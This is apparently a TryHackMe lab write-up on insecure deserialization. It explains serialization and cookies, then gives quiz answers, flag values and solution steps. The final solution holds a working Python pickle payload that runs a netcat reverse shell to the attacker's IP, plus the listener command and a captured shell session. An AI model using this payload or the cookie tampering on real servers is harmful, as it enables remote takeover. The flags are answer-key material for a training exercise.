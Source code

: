 # Insecure Deserialization

**Date:** 02, January, 2021

**Author:** Dhilip Sanjay S

---

## Serialization and Deserialization
- **Serialization** is the process of converting objects used in programming into simpler, compatible formatting for transmitting between systems or networks.
- **Deserialization** is the process of converting serialized information into their complex form - an object that the application will be able to understand.

## Insecure Deserialization
- Insecure Deserialization is a vulnerability which occurs when untrusted data is used to abuse the logic of an application
- It involves sreplacing data processed by an application with malicious code - allowing DoS to RCE.

- Low exploitability - attacker needs to have a good understanding of the inner-workings of the application.
- The exploit is only as dangerous as the attacker's skill permits.

## What's vulnerable?
- Any application that stores or fetches data where there are no validations or integrity checks in place for the data queried or retained. 
- Few examples of applications:
    - E-commerce Sites 
    - Forums
    - API's
    - Application Runtimes (Tomcat, Jenkins, Jboss, etc)

---
## Insecure Deserialization - Objects
- In OOP, objects are made up of two things:
    - State
    - Behaviour

---
## Insecure Deserialization - cookies
- Cookies are tiny peices of data - created and stored by website on the user's computer.
- Cookies store login information like sessionId.
- Attributes of cookies:

|Attribute | Description | Required?|
|----------|-------------|----------|
| Cookie Name | Name of the cookie | Yes |
| Cookie Value | Anything Plaintext or encoded | Yes |
| Secure Only | If set, this cookie will only be set over HTTPS connection | No |
| Expire | Set a timestamp for cookie expiry | No |
| Path | Cookie will only be sent if the specified URL is within the request| No |

---

## Solutions
### Who developed the Tomcat application?
- **Answer:** The Apache Software Foundation
- Initially I thought, James Duncan Davidson. But they actually wanted the organization's name.

---

### What type of attack that crashes services can be performed with insecure deserialization?
- **Answer:** Denial of Service
---

### If a dog was sleeping, would this be:
- **Answer:** Behaviour
- **Note:**
    - Sleep - State
    - Sleeping - behaviour

---

### What is the name of the base-2 formatting that data is sent across a network as? 
- **Answer:** Binary

---

### If a cookie had the path of webapp.com/login , what would the URL that the user has to visit be?
- **Answer:** webapp.com/login 

---

### What is the acronym for the web technology that Secure cookies work over?
- **Answer:** HTTPS

---

### 1st flag (cookie value)
- **Answer:** THM{good_old_base64_huh}
- **Steps to Reproduce:** 
    ```bash
    echo <session-id> | base64 -d
    ```

---

### 2nd flag (admin dashboard)
- **Answer:** THM{heres_the_admin_flag} 
- **Steps to Reproduce:** Change the `userType` field value to `admin` in the cookie and reload the page.

---

### What is the value in flag.txt?
- **Answer:** 4a69a7ff9fd68
- **Steps to Reproduce:** 
    - Submit a feedback.
    - You'll have a cookie named `encodedPayload`.
    - Replace the value with the one you get from running `rce.py`.

    ```python
    import pickle
    import sys
    import base64

    command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_VPN_IP 1234 > /tmp/f'

    class rce(object):
        def __reduce__(self):
            import os
            return (os.system,(command,))

    print(base64.b64encode(pickle.dumps(rce())))
    ```

    > Explanation of the code:
    > - `rm /tmp/f` - removes the file if it exists.
    > - `mkfifo /tmp/f` - creates a named IO pipe.
    > - `cat /tmp/f | /bin/sh -i 2>&1` - contents of the named pipe is printed and piped into `/bin/sh`.
    > - `netcat YOUR_TRYHACKME_VPN_IP 1234 > /tmp/f` 
    >    - The output of the commands executed by `/bin/sh` is directed into stdin of nc.
    >    - The output of nc (commands coming over the network) is redirected to the FIFO.

    - Listen using netcat: `nc -lvnp 1234`
    - Reload the page.
    - You will get a reverse shell:
    ```bash
    root@kali: nc -lvnp 1234
    listening on [any] 1234 ...
    connect to [YOUR_TRYHACKME_VPN_IP] from (UNKNOWN) [MACHINE_IP] 59092
    /bin/sh: 0: cant access tty; job control turned off
    $ ls
    app.py
    Dockerfile
    index.html
    launch.sh
    __pycache__
    requirements.txt
    static
    templates
    user.html
    venv
    vimexchange.sock
    wsgi.py

    $ pwd         
    /home/cmnatic/app

    $ find / -type f -name flag.txt 2>/dev/null
    /home/cmnatic/flag.txt

    $ cd ..
    $ cat flag.txt
    4a69a7ff9fd68
    ```
---